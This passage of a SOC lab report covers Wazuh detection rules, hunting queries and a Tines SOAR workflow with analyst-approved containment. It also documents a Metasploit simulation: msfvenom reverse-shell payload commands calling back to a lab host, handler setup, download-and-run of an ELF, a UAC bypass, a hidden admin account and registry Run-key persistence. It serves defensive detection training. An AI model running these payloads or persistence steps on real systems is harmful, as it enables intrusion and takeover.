reg add "HKLM\Software\Microsoft\Windows\CurrentVersion\Run" /v CalcPersist /t REG_SZ /d "C:\Windows\System32\calc.exe" /f
```


#### Investigation Focus

- Registry path and value name
- Data written to the value
- Process that performed the change
- User context
- Parent process
- Whether the referenced executable exists
- File hash and reputation
- First-seen time and persistence across reboot
- Related process execution after logon

The use of `calc.exe` provided a safe visual test. In an investigation, an analyst would treat an unknown executable, script interpreter, user-writable path, encoded command, or recently downloaded file as higher risk.

### 7. Process Execution Investigation

Process telemetry was searched for commands such as `whoami` to validate that Sysmon events reached Wazuh with the process name, user, parent process, endpoint, and execution time.



The `whoami` process is legitimate but useful for validating telemetry. In a real incident it might also appear during discovery activity. Its meaning depends on the parent process, account, execution chain, surrounding commands, and whether the user normally runs administrative tools.

### 8. Guest Account Enabled

A custom Windows rule monitored Event ID `4722` for the built-in Guest account. Enabling Guest changes the account from disabled to active and might create an unexpected access path.

```xml
<group name="windows,windows_security,account_changed,adduser">
  <rule id="100200" level="12">
    <if_sid>60103</if_sid>
    <field name="win.system.eventID">^4722$</field>
    <field name="win.eventdata.targetUserName">^Guest$</field>
    <description>Grace Windows Guest account was enabled.</description>
    <mitre>
      <id>T1078</id>
    </mitre>
    <group>windows,windows_account_management,account_enabled,guest_account,</group>
  </rule>
</group>
```

The rule was assigned level 12 because enabling the Guest account is unusual in the lab and requires prompt review.

### 9. Controlled Command-and-Control-Style Activity

The lab also generated controlled post-compromise-style telemetry to test whether endpoint execution and network activity appeared in Wazuh. The investigation focused on observable behaviour rather than exploitation instructions.

Relevant evidence included:

- Process creation
- Shell execution
- Parent-child process relationships
- Network connections
- User context
- Command-line arguments
- File paths and hashes
- Follow-on account and persistence changes

This stage helped connect isolated events into a wider sequence and reinforced the need to correlate process, network, authentication, and account telemetry.

## Controlled Metasploit Adversary Simulation

### Purpose and Authorisation

Metasploit was used to generate realistic endpoint and network telemetry for the MYDFIR Wazuh Challenge. Every action was performed against systems owned and controlled within the isolated `192.168.66.0/24` virtual lab. The objective was detection and investigation, not unauthorised access.

Two Metasploit components were used:

- **`msfvenom`** generated controlled Windows and Linux test payloads.
- **`msfconsole`** operated the matching multi/handler, received the reverse connections, and provided Meterpreter sessions for post-compromise simulation.

> The correct tool name is `msfvenom`. It is sometimes mistakenly written as `mfvermon`.

### Simulation Flow

1. Generate a platform-specific test payload on Kali Linux.
2. Configure a matching Metasploit multi/handler.
3. Move the payload to the intended lab endpoint.
4. Execute the payload under controlled conditions.
5. Confirm that the endpoint connected back to Kali.
6. Run a small set of discovery, account, and persistence actions.
7. Search Wazuh for the resulting process, command-line, registry, account, and network telemetry.
8. Compare the offensive action with the defensive evidence.

### Windows Payload Generation with `msfvenom`

On Kali Linux (`192.168.66.133`), `msfvenom` generated a 32-bit Windows Meterpreter reverse TCP executable named `grace.exe`. The payload was configured to connect to the Kali lab system on TCP port `4444`.

```bash
msfvenom -p windows/meterpreter/reverse_tcp \
  LHOST=192.168.66.133 LPORT=4444 \
  -f exe -o /tmp/grace.exe
```

The command produced a 7,168-byte executable. No encoder was applied. The output confirmed the selected Windows platform, x86 architecture, raw payload size, final executable size, and output location.



### Windows Handler and Meterpreter Session

`msfconsole` was opened on Kali and the `exploit/multi/handler` module was configured with the same payload, callback address, and port.

```text
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST 192.168.66.133
set LPORT 4444
exploit -j
```

The first handler attempt reported that port `4444` was already in use. This was treated as a troubleshooting event rather than a successful result. After confirming the listener state, the Windows endpoint connected to the handler and opened a Meterpreter session from `192.168.66.131` to `192.168.66.133:4444`.

The lab later tested `bypassuac_fodhelper` against the existing session. The evidence shows that UAC was enabled, the configuration was assessed, and a second Meterpreter session opened. This was a successful lab simulation of privilege-elevation behaviour, not proof that the endpoint was vulnerable outside the tested configuration.



### Windows Discovery and Post-Compromise Activity

The Meterpreter session was used to inspect running processes and open a Windows command shell. The process list showed the controlled `grace.exe` process running from the user's Downloads directory alongside `Sysmon.exe` and `wazuh-agent.exe`. This connected the simulated payload to the endpoint telemetry sources responsible for recording the activity.

The following discovery activity was performed:

- Confirm the current user and security context.
- List processes and locate `grace.exe`.
- Open a command shell.
- Run `ipconfig` to confirm the endpoint network configuration.
- Start PowerShell to generate additional process and command-line telemetry.
- Run `whoami` and `whoami /groups` to review identity and group membership.



### Account and Persistence Simulation

The Windows session was also used to reproduce actions that a SOC should investigate:

- A local account named `attacker` was created.
- The account was added to the local `Administrators` group.
- A Run-key value named `CalcPersist` was added under `HKLM\Software\Microsoft\Windows\CurrentVersion\Run`.
- The Run-key value pointed to `C:\Windows\System32\calc.exe`, providing a safe persistence demonstration without introducing a second malicious binary.

The first two group-add attempts contained an incorrect group name and a spelling error. They failed and produced useful command evidence. The corrected command succeeded. The first registry command also failed because of duplicated text and invalid syntax; the corrected command completed successfully. Recording both failure and success is important because attempted actions still contribute to an investigation timeline.


These actions were expected to produce evidence such as:

| Activity | Expected evidence | Investigation value |
|---|---|---|
| `grace.exe` execution | Sysmon process creation, image path, user, hash, and parent process | Identifies the initial suspicious process |
| Reverse TCP callback | Sysmon network connection from Windows to `192.168.66.133:4444` | Connects endpoint execution to command-and-control-style traffic |
| `whoami` and `ipconfig` | Process creation and command-line telemetry | Shows system and identity discovery |
| PowerShell start | PowerShell and Sysmon process telemetry | Highlights a commonly abused interpreter |
| Local account creation | Windows Security Event ID `4720` | Detects account creation after initial access |
| Administrator group change | Windows Security Event ID `4732` | Detects privilege assignment to a local account |
| Run-key modification | Sysmon registry events | Detects persistence through an autostart location |

### Linux Payload Generation, Transfer, and Execution

A separate Linux x64 Meterpreter reverse TCP payload named `ogebe.elf` was generated for the Ubuntu agent. It used Kali `192.168.66.133` as the callback address and TCP port `4445` to keep it separate from the Windows handler.

```bash
msfvenom -p linux/x64/meterpreter/reverse_tcp \
  LHOST=192.168.66.133 LPORT=4445 \
  -f elf -o /tmp/ogebe.elf
```

The file was served from Kali through a temporary lab web server and downloaded by Ubuntu from `http://192.168.66.133:9999/ogebe.elf`. On Ubuntu, the file was saved, marked executable, and run. This generated file-transfer, permission-change, execution, and network-connection evidence.


### Linux Handler and Meterpreter Session

The Metasploit multi/handler was reconfigured with `linux/x64/meterpreter/reverse_tcp` on TCP port `4445`. Execution of `ogebe.elf` opened Meterpreter session `3` from Ubuntu `192.168.66.132` to Kali `192.168.66.133:4445`.

Within the controlled session, the following checks were performed:

- `getuid` confirmed the session user as `graceogebe`.
- `whoami`, `id`, and `groups` confirmed the Linux user and group context.
- `/etc/passwd` was read to generate account-discovery telemetry.
- `/etc/os-release` was read to confirm Ubuntu `24.04.4 LTS`.
- A Python PTY was started to improve shell interaction.


### Wazuh Detection and Investigation Results

Wazuh was searched for the commands and behaviours generated during the simulation. A `whoami` search returned 25 events on 12 September 2026. The expanded Sysmon event identified:

- Agent IP `192.168.66.131`
- Agent name `Windows-10`
- Agent ID `001`
- Original filename `whoami.exe`
- Image path `C:\Windows\SysWOW64\whoami.exe`
- Process and parent-process identifiers
- Command-line and working-directory context



The simulation demonstrated that Wazuh received enough endpoint context to move from a single command to a broader investigation. An analyst could correlate the payload execution, reverse connection, discovery commands, local account creation, group membership change, and registry persistence activity on the same endpoint and within the same period.

### Windows Investigation: 5Ws and How

| Question | Investigation finding |
|---|---|
| **Who** | The controlled activity involved Kali Linux at `192.168.66.133`, operated by the lab analyst, and the Windows 10 endpoint at `192.168.66.131`, monitored as Wazuh agent `001`. The Windows session ran under `DESKTOP-QKCPUSR\Grace Ogebe`. A local test account named `attacker` was later created. |
| **What** | A Windows Meterpreter payload named `grace.exe` executed on the Windows endpoint and created a reverse TCP connection to Kali. The session generated process discovery, network discovery, identity discovery, PowerShell execution, local account creation, administrator-group membership, and registry Run-key persistence activity. |
| **When** | The first recorded Windows callback occurred on 11 September 2026 at `13:21:41 -0400`. The extended test opened another session on 12 September 2026 at `06:31:00 -0400`, followed by the controlled UAC-bypass session at `06:31:36 -0400`. The original timezone displayed by Metasploit was retained. |
| **Where** | The payload ran from `C:\Users\Grace Ogebe\Downloads\grace.exe` on the Windows 10 endpoint. It connected to the Metasploit handler at `192.168.66.133:4444` across the isolated `192.168.66.0/24` lab network. Wazuh stored the endpoint evidence under agent `001`. |
| **Why** | The activity was generated to test whether Wazuh and Sysmon recorded a realistic sequence of execution, callback, discovery, account manipulation, privilege-related activity, and persistence. The exercise formed part of the authorised MYDFIR Wazuh Challenge lab. |
| **How** | `msfvenom` generated the Windows executable. `msfconsole` operated a matching multi/handler. Execution of the file created a Meterpreter session. The session then ran controlled commands and made safe lab changes. Sysmon collected process, command-line, registry, and network evidence, which the Wazuh agent forwarded for investigation. |

### Ubuntu Investigation: 5Ws and How

| Question | Investigation finding |
|---|---|
| **Who** | The controlled activity involved Kali Linux at `192.168.66.133` and Ubuntu at `192.168.66.132`, monitored as Wazuh agent `002`. The Meterpreter session ran as the Ubuntu user `graceogebe`. |
| **What** | A Linux x64 Meterpreter payload named `ogebe.elf` was transferred to Ubuntu, marked executable, and run. It created a reverse TCP session to Kali. The session generated user, group, account, operating-system, shell, file-transfer, and network activity. |
| **When** | Ubuntu downloaded the payload on 12 September 2026 at `10:56:37` in the endpoint's displayed local time. Metasploit recorded session `3` opening on 12 September 2026 at `07:02:16 -0400`. The report retains both source timestamps because the systems displayed different timezone contexts. |
| **Where** | The payload was downloaded from `http://192.168.66.133:9999/ogebe.elf` to the home directory on Ubuntu. It connected back to the handler at `192.168.66.133:4445` within the isolated lab network. Wazuh collected the Ubuntu evidence through agent `002`. |
| **Why** | The Linux test assessed cross-platform visibility and checked whether the monitoring workflow captured transfer, execution, reverse connection, identity discovery, account discovery, and shell activity on an Ubuntu endpoint. |
| **How** | `msfvenom` generated an ELF payload. A temporary web server on Kali hosted the file. Ubuntu used `wget` to retrieve it, `chmod` to add execution permission, and direct execution to start it. `msfconsole` received the callback and opened a Meterpreter session. Linux logs and the Wazuh agent supplied the investigation evidence. |

### What Was Achieved

| Objective | Result | Evidence |
|---|---|---|
| Generate Windows test artefact | Achieved | `grace.exe` created with `msfvenom` |
| Establish Windows callback | Achieved | Meterpreter session opened from `192.168.66.131` to Kali on `4444` |
| Exercise Windows discovery | Achieved | Process listing, `ipconfig`, PowerShell, `whoami`, and group checks |
| Simulate account manipulation | Achieved | `attacker` account created and added to local Administrators |
| Simulate Run-key persistence | Achieved | `CalcPersist` value created with `calc.exe` as a safe target |
| Generate Linux test artefact | Achieved | `ogebe.elf` created with `msfvenom` |
| Demonstrate Linux file transfer | Achieved | Ubuntu downloaded the ELF payload from Kali over port `9999` |
| Establish Linux callback | Achieved | Meterpreter session opened from `192.168.66.132` to Kali on `4445` |
| Exercise Linux discovery | Achieved | User, group, account-file, and OS information collected |
| Validate endpoint visibility | Achieved | Wazuh recorded related process and command telemetry |
| Practise troubleshooting | Achieved | Handler bind, command syntax, group name, and registry syntax errors were identified and corrected |

### Defensive Lessons

- A reverse connection is more meaningful when correlated with the process that created it, its user, its path, and its parent process.
- Discovery commands such as `whoami`, `ipconfig`, `id`, and account-file access are low severity in isolation but stronger when they follow an unusual executable and network callback.
- Account creation, administrator-group changes, and Run-key modification form a suspicious post-compromise sequence when they occur close together.
- Failed commands should remain in the timeline because they show attacker intent and explain later successful actions.
- Windows and Linux require different payload formats and telemetry sources, but both support the same investigation model: process, user, command line, network connection, and follow-on behaviour.
- Detection validation should confirm raw-event visibility as well as alert creation. A recorded event is not automatically a high-confidence detection.
- Metasploit output confirms what was attempted from the simulation system, while Wazuh evidence confirms what the monitored endpoint recorded. Both perspectives are required for an accurate report.

## Custom Detection Engineering

Local rules were developed and tested for account management and authentication activity. Examples included enabling the Windows Guest account and correlating repeated SSH failures.


Key rule design considerations included:

- Use a unique local rule ID range.
- Match the correct parent rule or Windows Event ID.
- Filter on meaningful fields such as account name and source IP.
- Assign severity based on business context.
- Map behaviour to MITRE ATT&CK.
- Test XML syntax before restarting the manager.
- Validate the rule with real events in the dashboard.

### Rule Testing Method

Each custom rule was tested using the following approach:

1. Back up the current rule and configuration files.
2. Add one rule change at a time.
3. Validate XML structure.
4. Test the rule syntax and decoder relationship.
5. Restart the required Wazuh service.
6. Generate the intended event in the isolated lab.
7. Confirm the event reached Wazuh.
8. Confirm the expected rule ID, severity, description, and groups.
9. Review the extracted fields.
10. Record screenshots and observations.
11. Check for unintended alerts or excessive noise.

### Detection Catalogue

| Detection | Primary evidence | Severity or priority | ATT&CK context |
|---|---|---|---|
| Account created | Event ID `4720` | Context dependent | Account Manipulation |
| Account enabled | Event ID `4722` | High for Guest account | Valid Accounts / Account Manipulation |
| Account deleted | Event ID `4726` | Context dependent | Indicator Removal / Account Manipulation context |
| Successful logon | Event ID `4624` | Context dependent | Valid Accounts |
| Repeated SSH failures | Rule `100101` | Level 10 | Brute Force |
| Registry Run key | Sysmon registry and process telemetry | High when unexpected | Registry Run Keys / Startup Folder |
| Process discovery | Sysmon process creation | Context dependent | System Owner/User Discovery context |
| Suspicious PowerShell | Sysmon process and command line | High when encoded or hidden | PowerShell |
| Active Response execution | `ar_log_json` and response log | Operational verification | Incident response control |

## Threat Hunting and Investigation Queries

The following searches support repeatable investigation in Wazuh Discover. Field names might differ slightly by Wazuh version, decoder, or selected index pattern.

### Account Creation

```text
data.win.system.eventID: "4720"
```

### Account Enabled

```text
data.win.system.eventID: "4722"
```

### Guest Account Enabled

```text
data.win.system.eventID: "4722" AND data.win.eventdata.targetUserName: "Guest"
```

### Account Deletion

```text
data.win.system.eventID: "4726"
```

### Successful Logons

```text
data.win.system.eventID: "4624"
```

### Remote Interactive Logons

```text
data.win.system.eventID: "4624" AND data.win.eventdata.logonType: "10"
```

### Repeated SSH Failures

```text
rule.id: "100101"
```

### SSH Events on the Ubuntu Agent

```text
agent.id: "002" AND rule.groups: "sshd"
```

### Activity from the Windows Lab Address

```text
data.srcip: "192.168.66.131"
```

### Process Execution Search

```text
data.win.eventdata.image: *whoami.exe OR data.win.eventdata.commandLine: *whoami*
```

### PowerShell Activity

```text
data.win.eventdata.image: *powershell.exe OR data.win.eventdata.parentImage: *powershell.exe
```

### Registry Run Key Activity

```text
data.win.eventdata.targetObject: *\\CurrentVersion\\Run*
```

### Active Response Activity

```text
decoder.name: "ar_log_json" OR data.parameters.program: *firewall-drop*
```

### Hunting Sequence

A repeatable investigation starts with the alert and expands outward:

1. Search the rule ID.
2. Identify the agent, user, source address, and timestamp.
3. Search the same source address across all agents.
4. Search the target username for successful and failed authentication.
5. Review process activity before and after the alert.
6. Review account changes near the same time.
7. Review network connections and destination addresses.
8. Search for the same command line, file hash, or registry path.
9. Check whether other hosts show similar behaviour.
10. Record findings and confidence level.

## Tines SOAR Workflow

### Workflow Design

The automation flow used the following sequence:

1. Wazuh sends the complete alert to a Tines webhook.
2. The AI agent reviews only the `all_fields` alert object.
3. Indicator values are extracted from the output.
4. Public indicators are enriched through VirusTotal and AbuseIPDB.
5. A structured SOC report is posted to Slack.
6. The workflow decides whether blocking is recommended.
7. A human approval page presents the response decision.
8. Approved actions are sent to the Wazuh Active Response API.
9. Wazuh executes the endpoint firewall script.
10. The result is verified through connectivity testing and Wazuh logs.

### Workflow Components

| Component | Purpose | Expected output |
|---|---|---|
| Wazuh webhook | Receives the full alert from Wazuh | Alert JSON with `all_fields` |
| AI agent | Produces evidence-based triage | Findings, summary, 5W1H, recommendations, block decision |
| VirusTotal tool | Enriches supported public IOCs | Reputation and detection context |
| AbuseIPDB tool | Enriches public IP addresses | Abuse confidence and report context |
| Event Transform | Extracts decision and IOC fields | `recommend_block`, `ioc_type`, `ioc_value` |
| Block condition | Routes recommended blocks | Approval branch or no-block branch |
| Slack action | Sends analyst-readable report | SOC channel message |
| Approval page | Requests human decision | Yes or No response |
| Wazuh authentication action | Retrieves API token | Bearer token |
| Active Response action | Sends approved containment request | Wazuh API result |

### IOC Extraction

The Event Transform separated `recommend_block`, `ioc_type`, and `ioc_value` from the AI output. The IOC was normalised into one clean scalar value before being passed to Wazuh.


The first extraction pattern returned a nested array and included escaped quotation marks. Passing this directly to Wazuh produced an invalid `srcip` value. The extraction was corrected so the final request contained one plain IP address.

Correct result:

```json
"srcip": "192.168.66.131"
```

Incorrect result:

```json
"srcip": [["\"192.168.66.131\" }"]]
```

This issue demonstrated why automation workflows must validate data type, array depth, escaping, and IOC syntax before containment.

### SOC Triage Report

The AI prompt was restricted to evidence present in the Wazuh alert. Missing fields were reported as unavailable instead of being inferred. The Slack report included findings, an investigation summary, 5W1H, recommendations, and the block decision.


The AI system instruction required the following controls:

- Use only data found in the Wazuh webhook `all_fields` object.
- State when information is not available.
- Do not invent hostnames, addresses, hashes, or conclusions.
- Produce consistent report sections.
- Avoid public reputation lookups when no supported IOC exists.
- Recommend blocking only for IP addresses, domains, or hashes.
- Never treat usernames, hostnames, or file paths as blockable IOCs.
- Return structured decision data after reporting.

### Human Approval

Containment was not performed immediately after an AI recommendation. The workflow presented a Yes or No approval page so the analyst retained control over the final action.


Human approval was retained because a source address might belong to a trusted administrator, scanner, gateway, DNS server, Wazuh component, or business-critical system. The analyst must review context before approving a disruptive action.

## Active Response

The Wazuh API request targeted the agent that generated the alert. For the Ubuntu endpoint, the `firewall-drop` script received the extracted IP through the `srcip` field.

```json
{
  "arguments": [],
  "command": "!firewall-drop",
  "alert": {
    "data": {
      "srcip": "<<event_transform.ioc_value[0][0]>>"
    }
  }
}
```

The exclamation mark instructs Wazuh to treat the command as an executable script. Windows endpoints require a Windows-compatible response script such as `netsh.exe`; Linux and Unix endpoints use `firewall-drop`.

### API Request Design

The Active Response request used:

- HTTP method: `PUT`
- Endpoint: `/active-response`
- Query parameter: `agents_list=<agent ID>`
- Authentication: Bearer token
- Content type: `application/json`
- Command: platform-appropriate response script
- IOC field: `alert.data.srcip`

The agent ID must contain at least three digits. A blank value caused a Wazuh API schema error because the `agents_list` item did not meet the minimum length requirement. The workflow was corrected to use the agent ID present in the alert.

### Platform Handling

| Endpoint type | Response script | Validation |
|---|---|---|
| Linux or Unix | `firewall-drop` | Review iptables or the platform firewall and active-response logs |
| Windows | `netsh.exe` or a tested Windows response script | Review Windows Firewall rules and agent logs |

A production workflow should identify the operating system before selecting the response script. Sending `firewall-drop` to a Windows agent will not provide the intended result.

### Response Preconditions

Before sending a block request, the workflow should confirm:

1. The IOC is present.
2. The IOC is a valid IP address.
3. The address is not empty or stored as an array.
4. The address is not a protected infrastructure address.
5. The target agent ID is present and active.
6. The selected script exists on the target platform.
7. `wazuh-execd` is running.
8. The analyst approved the action.
9. The action and approval are logged.

The Wazuh agent exposed its available response commands before the containment test.


The incoming webhook confirmed the affected Ubuntu agent as ID `002` with address `192.168.66.132`.



### Response Validation

Connectivity from the Windows test source to the Ubuntu endpoint was confirmed before the response.


After the approved firewall response, the same connectivity test timed out, showing the endpoint firewall action had taken effect.


Wazuh recorded the active-response program and the source IP passed to the script.


The response was considered validated only after three forms of evidence aligned:

1. **Tines evidence** showed the API action was sent.
2. **Wazuh evidence** showed the active-response script and source IP.
3. **Endpoint behaviour** changed from successful connectivity to timeouts.

An HTTP success response by itself was not treated as proof of containment.

## SOC Investigation Report

### Findings

- Custom rule `100101`, level 10, detected repeated SSH authentication failures against Ubuntu agent `002` at `192.168.66.132`.
- The source address was `192.168.66.131`, the Windows lab endpoint.
- The test targeted the Ubuntu account `graceogebe`.
- Three failed attempts occurred within the configured correlation window.
- The rule mapped the activity to MITRE ATT&CK `T1110`, Brute Force.
- VirusTotal and AbuseIPDB identified the source as a private RFC 1918 address, so public reputation results were not meaningful for this internal lab IOC.
- Tines produced a structured triage report and requested analyst approval.
- Wazuh Active Response executed `firewall-drop` on the Ubuntu agent.
- Post-response connectivity testing showed timeouts, and Wazuh logged the response action.

### Investigation Summary

The Ubuntu endpoint received repeated failed SSH authentication attempts from the Windows lab system. Wazuh correlated the failures and generated a high-priority custom alert. Tines received the full alert, extracted the indicator, enriched the available context, and sent a triage report to Slack. The workflow recommended containment and presented the decision to the analyst. Following approval, Tines called the Wazuh Active Response API and instructed the Ubuntu agent to block the source IP. Endpoint testing and Wazuh telemetry confirmed the response.

### Alert Classification

| Attribute | Value |
|---|---|
| Alert | Multiple SSH login failures observed from the same source IP |
| Rule ID | `100101` |
| Wazuh level | `10` |
| Category | Authentication failure correlation |
| ATT&CK tactic | Credential Access |
| ATT&CK technique | `T1110`, Brute Force |
| Source | `192.168.66.131` |
| Target | Ubuntu agent `002`, `192.168.66.132` |
| Target account | `graceogebe` |
| Disposition | True positive lab simulation |
| Impact | No production impact |
| Response | Analyst-approved firewall block |
| Validation | Connectivity timeout and active-response telemetry |

### SSH Investigation: 5Ws and How

| Question | Answer |
|---|---|
| Who | Source endpoint `192.168.66.131` targeted user `graceogebe` on Ubuntu agent `002`. |
| What | Multiple failed SSH authentication attempts triggered custom rule `100101`. |
| When | Events were generated and investigated during the September 2026 lab exercises. Exact event timestamps remain visible in the supporting screenshots. |
| Where | The activity occurred between the Windows endpoint and Ubuntu endpoint on the isolated `192.168.66.0/24` lab network. |
| Why | The activity was intentionally generated to validate SSH brute-force detection, triage, enrichment, approval, and containment. |
| How | Repeated SSH failures were correlated by Wazuh, sent to Tines, reviewed through the SOAR workflow, and contained through Wazuh Active Response. |

## Incident Timeline

| Date and time | Event | Evidence |
|---|---|---|
| 11 Sep 2026, 12:40 local lab time | Windows Meterpreter payload `grace.exe` was generated on Kali | `msfvenom` output and file listing |
| 11 Sep 2026, 13:21:41 -0400 | Windows endpoint connected to the Metasploit handler on port `4444` | Meterpreter session evidence |
| 12 Sep 2026, 06:31:00 -0400 | A new Windows Meterpreter session opened for the extended simulation | `msfconsole` handler output |
| 12 Sep 2026, 06:31:36 -0400 | Controlled UAC-bypass simulation opened a second Windows session | `bypassuac_fodhelper` module output |
| 12 Sep 2026 | Windows discovery, local-account, administrator-group, and Run-key activity was generated | Meterpreter shell and endpoint command evidence |
| 12 Sep 2026, 10:56:37 local lab time | Ubuntu downloaded `ogebe.elf` from Kali on port `9999` | Ubuntu `wget` output |
| 12 Sep 2026, 07:02:16 -0400 | Ubuntu opened Meterpreter session `3` to Kali on port `4445` | Linux handler output |
| 12 Sep 2026 | Wazuh searches confirmed visibility of simulated activity, including 25 `whoami` events | Wazuh Discover evidence |
| 24 Sep 2026, approximately 16:28 UTC | Repeated SSH failures occurred against the Ubuntu endpoint | Ubuntu authentication event and Wazuh alert |
| 24 Sep 2026, 16:28:46 UTC | Tines received the Wazuh webhook for agent `002` | Webhook event timestamp |
| 24 Sep 2026 | Tines analysed the alert and extracted the source IOC | AI agent and Event Transform actions |
| 24 Sep 2026 | VirusTotal and AbuseIPDB context was reviewed | Enrichment actions |
| 24 Sep 2026 | SOC triage findings were sent to Slack | Slack message evidence |
| 28 Sep 2026 | Connectivity from the Windows system to Ubuntu was confirmed before containment | Successful ping responses |
| 28 Sep 2026 | Analyst approved the block request | Tines approval page |
| 28 Sep 2026 | Wazuh Active Response received `192.168.66.131` for `firewall-drop` | Wazuh `ar_log_json` event |
| 28 Sep 2026 | Connectivity attempts timed out after the response | Post-response ping test |

The dates reflect separate phases of controlled adversary simulation, detection validation, workflow development, and final response testing rather than one uninterrupted live incident. Some Metasploit screenshots display a `-0400` offset while other systems use local lab time or UTC, so the original timezone shown by each source has been retained.

## Indicators and Investigative Artefacts

| Artefact | Type | Context | Treatment |
|---|---|---|---|
| `192.168.66.128` | Private IP | Wazuh server | Protected infrastructure, never block through this workflow |
| `192.168.66.131` | Private IP | Windows lab source during SSH test | Lab IOC used for containment validation |
| `192.168.66.132` | Private IP | Ubuntu target and agent `002` | Affected endpoint |
| `192.168.66.133` | Private IP | Kali simulation system | Controlled test source for other scenarios |
| `103.125.103.201` | Public-format test IP | Synthetic malicious destination in the Tines test payload | Treat as simulated data unless independently verified |
| `aaf42a91af2bc4b592967c8db4bb802a478bda1d9af899962a5c8a790f5d9628` | SHA-256 | Synthetic file hash in the test payload | Enrichment test artefact |
| `svch0st.exe` | Filename | Lookalike process name in the synthetic Sysmon payload | Suspicious test artefact, not a confirmed real sample |
| `grace.exe` | Windows executable | Controlled Windows Meterpreter payload generated with `msfvenom` | Lab-only test artefact; remove after validation |
| `ogebe.elf` | Linux ELF | Controlled Linux x64 Meterpreter payload generated with `msfvenom` | Lab-only test artefact; remove after validation |
| TCP `4444` | Network port | Windows reverse TCP handler | Controlled Windows callback channel |
| TCP `4445` | Network port | Linux reverse TCP handler | Controlled Linux callback channel |
| TCP `9999` | Network port | Temporary lab web server used to transfer `ogebe.elf` | Controlled file-transfer channel |
| `attacker` | Local account | Account created during the Windows simulation | Controlled account-manipulation artefact; remove after validation |
| `CalcPersist` | Registry value | Controlled Run key persistence test | Safe lab test using `calc.exe` |
| `graceogebe` | Username | Ubuntu account targeted during SSH test | Identity context, not a blockable IOC |

### Confidence Assessment

- **High confidence** that the SSH failures occurred in the lab because the authentication telemetry, custom rule, source address, target user, and affected agent aligned.
- **High confidence** that the response script received the intended IP because Wazuh recorded `data.srcip` and the response program.
- **High confidence** that connectivity changed after the response because the same test moved from replies to timeouts.
- **Low external-threat confidence** for the private source IP because public reputation services do not provide meaningful reputation for RFC 1918 addresses.
- **Synthetic only** for the public IP, hash, filename, and PowerShell activity included in the manually created Tines test payload.
- **High confidence** that the Metasploit callbacks occurred because the handler output identified the expected source and destination addresses, ports, and session IDs.
- **High confidence** that Wazuh captured related Windows discovery activity because the expanded event identified the expected agent, executable, user context, and process metadata.
- **Lab-only classification** for `grace.exe`, `ogebe.elf`, the `attacker` account, and the Metasploit listener ports. They are test artefacts, not evidence of an external compromise.

## MITRE ATT&CK Mapping

| Technique | Name | Lab evidence |
|---|---|---|
| `T1110` | Brute Force | Repeated SSH authentication failures |
| `T1021.004` | Remote Services: SSH | SSH access and authentication testing |
| `T1098` | Account Manipulation | Local account creation and account changes |
| `T1078` | Valid Accounts | Successful logon investigation |
| `T1547.001` | Registry Run Keys / Startup Folder | Controlled Run key persistence test |
| `T1059.001` | PowerShell | PowerShell process activity in Windows telemetry |
| `T1059.003` | Windows Command Shell | Meterpreter opened a Windows command shell for controlled commands |
| `T1059.004` | Unix Shell | Meterpreter opened an Ubuntu shell during the Linux simulation |
| `T1105` | Ingress Tool Transfer | Simulated staged download alert used in the SOAR test payload |
| `T1095` | Non-Application Layer Protocol | Controlled reverse TCP callbacks to the Metasploit handlers |
| `T1033` | System Owner/User Discovery | `whoami` and Meterpreter `getuid` checks |
| `T1016` | System Network Configuration Discovery | `ipconfig` executed through the Windows session |
| `T1087.001` | Account Discovery: Local Account | `/etc/passwd`, user, and group discovery in the Linux simulation |
| `T1136.001` | Create Account: Local Account | Controlled creation of the Windows `attacker` account |
| `T1098` | Account Manipulation | Controlled addition of the test account to local Administrators |
| `T1548.002` | Abuse Elevation Control Mechanism: Bypass User Account Control | Controlled `fodhelper` UAC-bypass simulation |
| `T1070.004` | File Deletion | File deletion monitoring and investigation workflow |

## Investigation Challenges and Resolutions

| Challenge | Resolution |
|---|---|
| Wazuh manager failed after configuration edits | XML syntax was validated and mismatched or duplicated tags were corrected. |
| Linux agent failed to start | Incorrect XML closing tags and extra content were removed from `ossec.conf`. |
| Active-response agent ID was blank | The correct `agent.id` field was passed to the `agents_list` query parameter. |
| IOC arrived as a nested array with escaped quotation marks | The Event Transform regex was narrowed to the IPv4 value and the scalar element was selected. |
| API accepted the request but did not block | The correct endpoint script, clean `srcip`, target agent, and `wazuh-execd` execution path were verified. |
| Public threat intelligence returned no result for the source | The address was recognised as an internal RFC 1918 IOC and investigated using internal telemetry. |
| Risk of automatic false-positive containment | A human approval step was placed before Active Response. |

## Recommendations

1. Keep human approval for disruptive containment actions until detection quality and false-positive rates are measured.
2. Use separate platform-specific response paths for Windows and Linux endpoints.
3. Validate IOC type and format before sending an active-response request.
4. Exclude loopback, broadcast, gateway, DNS, Wazuh manager, and approved infrastructure addresses from automatic blocking.
5. Avoid sending private IP addresses to public reputation services unless the integration explicitly supports internal intelligence.
6. Add alert deduplication and response timeouts to prevent repeated blocks.
7. Store response decisions, approver identity, timestamp, target agent, IOC, and API result for audit purposes.
8. Add recovery actions for false positives, including controlled unblock procedures.
9. Monitor `active-responses.log` and generate alerts for failed response execution.
10. Expand the workflow to isolate endpoints, disable accounts, or quarantine files only after platform-specific testing.

### Detection Improvements

11. Correlate SSH failures with later successful logons from the same source.
12. Detect one source attempting authentication against several usernames.
13. Detect one source targeting several agents.
14. Add allowlists for approved administrative systems and vulnerability scanners.
15. Add a threshold for repeated account creation or deletion.
16. Alert when a new account is quickly added to the Administrators group.
17. Alert when Guest is enabled and then used for authentication.
18. Correlate registry persistence with execution of the referenced binary.
19. Add file reputation and signer information to suspicious process alerts.
20. Add dashboard panels for alert volume, source IP, user, agent, and ATT&CK technique.

### SOAR Improvements

21. Validate addresses with an IP-address function before enrichment or blocking.
22. Route private and public addresses through different investigation paths.
23. Query Wazuh agent details before selecting the response script.
24. Add a defined expiry period for temporary firewall blocks.
25. Add an unblock workflow requiring analyst approval.
26. Record the Wazuh API response and endpoint verification result in the Slack thread.
27. Add duplicate suppression for repeated alerts involving the same agent and IOC.
28. Stop automation when the agent, IOC, platform, or approval value is missing.
29. Store case status, owner, decision, and closure reason.
30. Measure mean time to triage and mean time to respond.

## Future Enhancements

- Add Microsoft Sentinel as a second SIEM destination.
- Forward selected Wazuh indicators into OpenCTI.
- Add MISP or OpenCTI enrichment for known threat intelligence objects.
- Add case tracking and incident ownership.
- Add endpoint isolation for confirmed Windows compromises.
- Add automatic evidence collection before containment.
- Add YARA scanning for suspicious files.
- Add Suricata network telemetry.
- Add DNS monitoring and domain-blocking workflows.
- Add detection coverage mapping against ATT&CK techniques.
